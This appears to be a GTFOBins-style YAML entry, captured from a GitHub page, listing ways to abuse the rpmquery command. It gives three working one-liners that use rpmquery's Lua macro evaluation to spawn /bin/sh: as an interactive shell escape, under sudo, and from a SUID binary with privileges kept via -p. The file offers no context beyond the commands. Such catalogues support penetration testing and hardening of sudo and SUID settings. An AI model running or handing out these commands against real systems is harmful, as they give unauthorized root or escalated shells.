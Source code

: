 ```yaml
---
functions:
  execute-interactive:
    - code: rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
  sudo-enabled:
    - code: sudo rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
  suid-enabled:
    - code: ./rpmquery --eval '%{lua:posix.exec("/bin/sh", "-p")}'
---
```

